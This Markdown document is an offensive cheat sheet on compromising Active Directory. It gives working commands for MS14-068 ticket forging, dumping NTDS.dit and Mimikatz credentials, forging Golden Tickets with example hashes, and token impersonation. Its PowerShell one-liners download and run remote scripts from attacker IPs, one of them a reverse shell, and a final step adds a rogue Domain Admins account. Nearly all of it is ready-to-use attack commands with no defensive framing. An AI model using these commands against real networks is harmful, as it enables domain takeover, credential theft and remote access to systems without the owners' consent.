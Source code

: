 # Active Directory Attacks

## Most common paths to AD compromise
  * MS14-068 (Microsoft Kerberos Checksum Validation Vulnerability)
    ```bash
    Exploit Python: https://www.exploit-db.com/exploits/35474/
    Doc: https://github.com/gentilkiwi/kekeo/wiki/ms14068
    Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum

    git clone https://github.com/bidord/pykek
    python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
    python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
    mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
    ```
  * MS17-010 (Eternal Blue - Local Admin)
    ```c
    nmap -Pn -p445 — open — max-hostgroup 3 — script smb-vuln-ms17–010 <ip_netblock>
    ```
  * Unconstrained Delegation (incl. pass-the-ticket)
  * OverPass-the-Hash (Making the most of NTLM password hashes)
  * Pivoting with Local Admin & Passwords in SYSVOL
    ```c
    findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml

    or

    Metasploit: scanner/smb/smb_enumshares
    Metasploit: windows/gather/enumshares
    Metasploit: windows/gather/credentials/gpp
    ```
  * Dangerous Built-in Groups Usage
  * Dumping AD Domain Credentials
  ```c
  C:\>ntdsutil
  ntdsutil: activate instance ntds
  ntdsutil: ifm
  ifm: create full c:\pentest
  ifm: quit
  ntdsutil: quit

  secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL

  or

  Metasploit : windows/gather/credentials/domain_hashdump
  ```
  * Golden Tickets    
  Mimikatz version
  ```c
  Get info - Mimikatz
  lsadump::dcsync /user:krbtgt
  lsadump::lsa /inject /name:krbtgt

  Forge a Golden ticket - Mimikatz
  kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
  kerberos::tgt
  ```

  Meterpreter version
  ```c
  Get info - Meterpreter(kiwi)
  dcsync_ntlm krbtgt
  dcsync krbtgt

  Forge a Golden ticket - Meterpreter
  load kiwi
  golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
  golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
  kerberos_ticket_purge
  kerberos_ticket_use /root/Downloads/pentestlabuser.tck
  kerberos_ticket_list
  ```
  * Kerberoast
    ```c
    https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/
    https://room362.com/post/2016/kerberoast-pt1/
    ```
  * Silver Tickets
  * Trust Tickets


## Tools
  * [Impacket](https://github.com/CoreSecurity/impacket)
  * Responder
  * Mimikatz
  * [Ranger](https://github.com/funkandwagnalls/ranger)
  * BloodHound
  * RottenPotato
  * [AdExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)

## Mimikatz
```
load mimikatz
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest
```

## PowerSploit
```
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```


## PrivEsc - Token Impersonation (RottenPotato)
Binary available at : https://github.com/foxglovesec/RottenPotato      
Binary available at : https://github.com/breenmachine/RottenPotatoNG   
```c
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```

```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```


## PrivEsc - MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)
```
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```


## Local Admin to Domain Admin
```
net user hacker2 hacker123 /add /Domain
net group "Domain Admins" hacker2 /add /domain
```


## Thanks to
 * [https://chryzsh.gitbooks.io/darthsidious/content/compromising-ad.html](https://chryzsh.gitbooks.io/darthsidious/content/compromising-ad.html)
 * [Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition) - Adam Toscher](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
 * [Road to DC](https://steemit.com/infosec/@austinhudson/road-to-dc-part-1)
 * [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)
 * [Golden ticket](https://pentestlab.blog/2018/04/09/golden-ticket/)

